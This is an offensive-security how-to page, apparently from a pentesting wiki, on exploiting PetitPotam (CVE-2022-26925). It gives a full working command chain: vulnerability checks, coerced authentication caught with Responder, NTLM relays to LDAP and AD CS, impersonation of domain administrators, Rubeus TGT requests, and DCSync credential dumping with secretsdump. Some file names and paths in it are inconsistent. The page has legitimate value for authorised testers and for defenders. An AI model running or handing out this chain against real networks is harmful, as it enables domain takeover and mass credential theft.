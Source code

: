 # 🕷️ PetitPotam [CVE-2022-26925]
---

#### 🤓 RTFM

As explained in [topotam's Github repository](https://github.com/topotam/PetitPotam), PetitPotam is an exploit that allows to *to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw or other functions*. The authentication can then be [relayed](/ad/ntlmrelay/) on domain services depending on the Net-NTLM version caught.

#### 📝 Prerequisites

- If domain controllers are correctly patched, a [low privileged domain account](/docs/active-directory/methodology.html#-initial-access). Otherwise, **the attack can be performed unauthenticated**.

#### 🛠️ Do it!

To check if a domain controller is vulnerable to PetitPotam, use [NetExec](https://github.com/Pennyw0rth/NetExec) appropriate module.

```bash
# Check PetitPotam vulnerability being unauthenticated.
nxc smb $DomainControllerIP -M petitpotam

# Check PetitPotam vulnerability as an authenticated domain user.
nxc smb $DomainControllerIP -u $Username -p $Password -M petitpotam
```

If the domain controller appears to be vulnerable, you can use [topotam's Github repository](https://github.com/topotam/PetitPotam) to exploit it, forcing the domain controller to authenticate on your host. Before that, start [Responder](https://github.com/lgandx/Responder) to catch the NTLM authentication on your host.

```bash
# Get your IPv4 and the corresponding network interface.
ip a

# Start Responder.
sudo responder -I $NetworkInterface

# Run the exploit.
python PetitPotam.py -d $Domain -u $Username -p $Password $YourHostIP $DomainControllerIP
```

At this point, you can attempt to [crack](/cracking/) the hash obtained, whatever its version. But you might not get any result, since machine accounts' passwords are usually complex and randomly generated.

Otherwise, depending on the Net-NTLM version caught, you can try the two following exploits.

##### Net-NTLMv1

> [!IMPORTANT]
> If this one does not work, take a look at the [Net-NTLMv2](/ad/petitpotam/#net-ntlmv2) attack. It could also work with Net-NTLMv1 response.

If you catch a Net-NTLMv1 response, it could be [relayed](/ad/ntlmrelay/) to the domain controller itself - *or a replicated one* - to authenticate on LDAP(S) service. Normally, it's not possible to relay an authentication response from SMB to LDAP because of NTLM MIC (Message Integrity Check). But if the domain controller is vulnerable to Drop The MIC \[CVE-2019-1040\], you could be able to do it anyway.

The goal of this attack is to delegate rights to impersonate any user - *even domain administrators* - to a machine account you own. It can either be:
* The machine account of a domain computer you fully compromised.
* If the [MachineAccountQuota](/ad/quota/) is > 0, a machine account you will create. 

```bash
# Relay the domain controller authentication to itself or another domain controller.
# It will create a new machine account with a random password and delegate access to it.
impacket-ntlmrelayx -t ldap://$TargetDomainControllerIP -smb2support --delegate-access --remove-mic

# If you already have compromised a machine account and MachineAccountQuota = 0, use this.
impacket-ntlmrelayx -t ldap://$TargetDomainControllerIP -smb2support --delegate-access --remove-mic --escalate-user "$MachineAccount$"

# Now, coerce the authentication on your host with PetitPotam.
python PetitPotam.py -d $Domain -u $Username -p $Password $LHost $CoercedDomainControllerIP
```

If the attack worked, you can now leverage delegate access rights to impersonate any domain user - *remember, even domain administrators*.

```bash
impacket-getST -spn cifs/$TargetDomainControllerFQDN $Domain/$MachineAccount$:$Password -impersonate $Username
```

Previous command should generate a file named `$Username.cache` you can use as `KRB5CCNAME` to authenticate through Kerberos with impersonated user. Once the variable exported, you can perform a [DCSync attack](/ad/dcsync/) with `-k` and `-no-pass` option to invoke Kerberos authentication.

```bash
export KRB5CCNAME=$Username.ccache
impacket-secretsdump -k -no-pass $TargetDomainControllerIP
```

##### Net-NTLMv2

If you catch a Net-NTLMv2 response, the only way to exploit it is to leverage the AD CS (Active Directory Certificate Services). Following requirements are necessary to continue:
* Certificate Authority Web Enrollment is enabled.
* It accepts NTLM authentication.

Note that Certificate Authority Web Enrollement should be on the AD CS server - *which is sometimes the domain controller itself, sometimes a different server* -. To find the Certificate Authority Web Enrollment endpoint, following methods are possible:
* Network scans.
* Active Directory enumeration, looking for `*ADCS*`, `*CA*`, etc. named computers.
* Fuzzing on `/certsrv/` endpoint.
* Using `certutil.exe`.
* Using [Certify](https://github.com/GhostPack/Certify).

The Certificate Authority Web Enrollment endpoint is accessible by clicking on `Request a certificate`, usually located at `/cert/certrqus.asp`.

If all conditions above are met, start an [NTLM relay](/ad/ntlmrelay/) to the AD CS server. Then, coerce the vulnerable domain controller one more time with PetitPotam exploit to force the authentication on your host.

```bash
impacket-ntlmrelayx -t http://$CertificateAuthorityServerIP/certsrv/certqus.asp -smb2support --adcs --template DomainController

python PetitPotam.py -d $Domain -u $Username -p $Password $LHost $DomainControllerIP
```

You should receive a base64 formatted certificate. You can use it to request a Kerberos TGT with Rubeus.

```powershell
# With Win+R, to avoid conflicts with your current Kerberos context.
runas /netonly /user:fake powershell

# Then, use Rubeus to extract. Don't forget to put a '$' at the end of the domain controller account.
.\Rubeus.exe asktgt /outfile:kirbi /user:$DomainControllerName$ /ptt /certificate:$Base64EncodedCertificate

# Verify the Kerberos TGT is loaded in the session.
klist
```

With a Kerberos TGT associated to the domain controller’s account, you are now able to fully compromise the domain. For instance, you can perform a [DCSync attack](/ad/dcsync/).

#### 🏆 What's next?

TODO